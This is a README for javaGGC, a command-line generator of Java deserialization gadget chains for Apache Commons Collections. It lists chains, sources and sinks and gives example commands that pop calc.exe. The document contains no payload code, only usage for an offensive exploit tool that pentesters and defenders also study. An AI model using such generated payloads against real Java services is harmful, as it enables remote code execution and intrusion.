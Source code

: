 # javaGGC
***javaGGC for generate commons.collections gadget chain***

## Usage
### javaGGC 0
Use available ggc now!

CCHx is commons collections 4.x ggc relative to CCx.
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available GGC:
  [0] CC1 (command)
  [1] CC10 (command)
  [2] CC11 (code)
  [3] CC12 (code)
  [4] CC2 (code)
  [5] CC3 (code)
  [6] CC4 (code)
  [7] CC5 (command)
  [8] CC6 (command)
  [9] CC7 (command)
  [10] CC8 (code)
  [11] CCH1 (command)
  [12] CCH10 (command)
  [13] CCH11 (code)
  [14] CCH12 (code)
  [15] CCH3 (code)
  [16] CCH5 (command)
  [17] CCH6 (command)
  [18] CCH7 (command)
  [19] CCH8 (code)
  [20] CCK1 (code)
  [21] CCK2 (code)
  [22] CCK3 (command)
  [23] CCK4 (command)
```
usage: `javaGGC 0 CC1 calc.exe`
### javaGGC 3/4
Assemble these gadgets into a new ggc chain!
#### javaGGC 3
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 3 0 0 calc.exe`

#### javaGGC 4
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
  [5] PriorityQueueSource
  [6] TreeBagSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 4 0 0 calc.exe`

## Update
### V0.0.7
- allow `class://` schema as arg for load custom class
- refactor

### V0.0.6
- when the parameter is wrong, output the correct help information and exit
- refactor

### V0.0.5
- add sinkResultID for ScriptEngineManagerSink
- fix GGH1, GGH3
- fix a problem: **The payload generated by the repair cannot be used**

### V0.0.4
- add AnnotationInvocationHandlerSource for commons collections 4
- add CCH1, CCH3
### V0.0.3
- add TreeBagSource for commons collections 4

## Reference
[CCK Reference](https://github.com/shadowsock5/ysoserial/commit/cb0a3fa7aa8de4563fd4e1c57d45e6cd1ffea971)